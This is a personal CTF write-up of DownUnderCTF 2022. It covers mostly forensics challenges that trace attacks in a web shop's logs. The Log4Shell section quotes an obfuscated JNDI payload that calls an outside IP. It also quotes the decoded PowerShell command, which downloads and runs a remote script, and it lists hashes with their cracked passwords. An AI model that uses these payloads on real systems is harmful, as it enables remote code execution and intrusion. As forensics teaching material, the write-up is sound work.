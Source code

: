 ```yaml
---
layout: post
title: DownUnderCTF 2022
---
```


- [https://ctftime.org/event/1625](https://ctftime.org/event/1625)
- Sep 23 to Sep 25
- Played with wackers
- Ranking: 392/1407 with 750 points

# My Solves/Writeups

## Pwn

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| pwn/babyp(y)wn | beginner | 50 | [jump](#pwnbabypywn) |

## Rev

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| rev/source-provided | beginner | 50 | [jump](#revsource-provided) |

## DFIR

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| dfir/Shop-Knock-Knock-Knock | easy | 50 | [jump](#dfirshop-knock-knock-knock) |
| dfir/Shop-Logging-for-what? | easy | 50 | [jump](#dfirshop-logging-for-what) |
| dfir/Shop-I'm-just-looking! | easy | 50 | [jump](#dfirshop-im-just-looking) |
| dfir/Shop-Oi!-Get-out-of-there! | medium | 50 | [jump](#dfirshop-oi-get-out-of-there) |

## Writeups
### pwn/babypywn

Python is memory safe, right?

Author: joseph#8210

Attachments: [babypywn.py](https://play.duc.tf/files/75063ab9b30ed274dd69906496ce0c15/babypywn.py?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjozN30.YzHRZQ.fB3_7LN6wR9a1LOd2JRyUidbaC4)

### Solution


### rev/source-provided

In this reversing challenge, source is provided.

Author: joseph#8210

Attachments: [chall](https://play.duc.tf/files/77264a4412dde0c22c878269e1fc9c11/chall?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1N30.YzHR2Q.ocJkP7Re57zZU4nVaGuD10gK4ec)
[chall.S](https://play.duc.tf/files/2c136d630abb9d5d25109c2b6424cc5e/chall.S?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1OH0.YzHSag.bHrtRmikcYkKQA7n4ZRreyj3UT8)

### Solution


### dfir/shop-knock-knock-knock

Looks like there's been a bruteforce/password spray attempt against the website!

What's the contact email for the ISP of the attacker's IP?

Flag format: Email address, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```Although this had the most solves, it was the weidest/ hardest one for me.```

Looking at the file, we see that there are many different payloads sent to the web server that are of form jndi:smth// 

Searching up on google for jndi it returns results of the log4shell attack that happened last year

```The ip can also be found from looking at the password change attempts```

We know that these attacks are hacker attacks, so looking at the ip associated with the attack payload we can find the ISP of the attacker ip by running whois on the ip.

After several results of emails we get the answer

Flag: ```abuse@telstra.net```

### dfir/shop-logging-for-what

We implemented a basic IPS to help protect our site from new attacks.

Somehow, a newer more sophisticated version of a regularly observed attack was successfully executed against the website.

What is the name of the script that was run?

Flag format: Name of the script that was run, case sensitive.

Author: Conletz#5420

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

Knowing from the previous challenge that the attacks were log4shell attacks in the form of jndi:smth, we are probably looking for a version of the payload that can bypass a filter.

Scrolling through the file, we come across a payload that is also in the useragent section but looks obfuscated to bypass the filter.

```${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://41.108.181.141:5552/Basic/Command/Base64/cG93ZXJzaGVsbC5leGUgLWV4ZWMgYnlwYXNzIC1DICJJRVggKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHBzOi8vZG93bnVuZGVyY3RmLmNvbS9wVENOcDVwNkxQMGQ3cUE3N3l2YjRTSGY0MCcpOyI=}```

The end of this payload looks like base64 so decrypt the base64

```powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://downunderctf.com/pTCNp5p6LP0d7qA77yvb4SHf40');"```

This part felt kinda guessy to me but the answer for the script run was just the part after the link

```Flag: pTCNp5p6LP0d7qA77yvb4SHf40```

### dfir/shop-im-just-looking

We've seen some vulnerability scanning activity against us!

What was the name of the tool used?

Flag format: Name of the tool used, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```This challenge felt even more guessy to me as I found the answer by trying to do the password challenge instead.```

Searching through the json file during the password challenge of this file, I was looking for some wordlist that I could maybe use to crack the hashes.

Grepping txt from the json file, I got the result of nuclei.txt.

I searched up nuclei.txt on google thinking I could download this wordlist and use it to crack the hashes but when I searched it up, I instead find a vulnerability scanner on github called nuclei. [nuclei](https://github.com/projectdiscovery/nuclei)

This challenge description was asking for a vulnerability scanner, so nuclei seemed fit and it ended up being the flag.

```Flag: nuclei```

### dfir/shop-oi-get-out-of-there

Someone was able to successfully break into the admin account!

Do you know what the old password was?

Flag format: The password, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

After searching through the files on the previous challenges, I realized that there were these weird links pointing to /changepassword and had base64 text after the ref query parameter.

Using grep to search for "ref" and grabbing all the base64 text and decoding the base64 returns some password-like text.

```
b506fb0cabb60e9f1132daa72df4d567:6d7c5b3e796d833b3fdd40f4ce57facd
2ac9cb7dc02b3c0083eb70898e549b63:6d7c5b3e796d833b3fdd40f4ce57facd
3dc919de186d1a8ee62fff92d80839f7:6d7c5b3e796d833b3fdd40f4ce57facd
7a581ac4d8cb3bfc596fce9afb115fd2:6d7c5b3e796d833b3fdd40f4ce57facd
```

At first I thought this was a LM:NTLM hash because of the ldap references in the json file but trying to crack using hashcat/ john didn't work.

After, I tried plugging the hashes into hashes.com (cracked website for cracking passwords), and it cracked all of the passwords.

```
2ac9cb7dc02b3c0083eb70898e549b63:Password1
3dc919de186d1a8ee62fff92d80839f7:ozzieozzieozzie
7a581ac4d8cb3bfc596fce9afb115fd2:downunder2
b506fb0cabb60e9f1132daa72df4d567:crackstation
```

Submitting each of the passwords, one of them worked.

```Flag: ozzieozzieozzie```
